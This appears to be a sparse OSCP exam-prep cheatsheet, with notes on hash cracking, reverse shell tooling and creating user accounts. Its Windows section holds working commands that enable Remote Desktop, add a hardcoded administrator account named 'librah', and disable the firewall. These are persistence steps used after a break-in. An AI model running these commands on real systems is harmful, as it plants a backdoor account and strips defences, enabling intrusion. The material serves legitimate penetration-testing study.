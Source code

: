 # oscp

# cheatsheet

## recon

## password hash cracking
Cloud:
- https://crackstation.net/
- https://www.md5online.org/

Local tools:
- john
- hashcat

Wordlist:
- rockyou
- seclist

For CTF / OSCP, should not take you more than 30 mins to crak


## generate reverse shell payload
- msfvnon

## create user account
Linux:


Windows:
```
REM ****************
REM Enable Remote Desktop
REM ****************
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

REM ***************
REM Create a USER usr= librah, pass= passw0rd
REM ***************
net user /add librah passw0rd
net localgroup "Administrators" /add librah
net localgroup “Remote Desktop Users” /add librah

REM ***************
REM Show USER info
REM ***************
net user librah

netsh firewall set opmode disable  # todo - available on all windows?
```

Reference: 
- https://www.windows-commandline.com/cmd-net-user-command/
- https://www.windows-commandline.com/enable-remote-desktop-command-line/


## references
- https://www.securitysift.com/offsec-pwb-oscp/
- https://github.com/xapax/oscp
- https://medium.com/@hakluke/haklukes-ultimate-oscp-guide-part-2-workflow-and-documentation-tips-9dd335204a48
- 
- [OSCP Exam Guide](https://support.offensive-security.com/#!oscp-exam-guide.md)
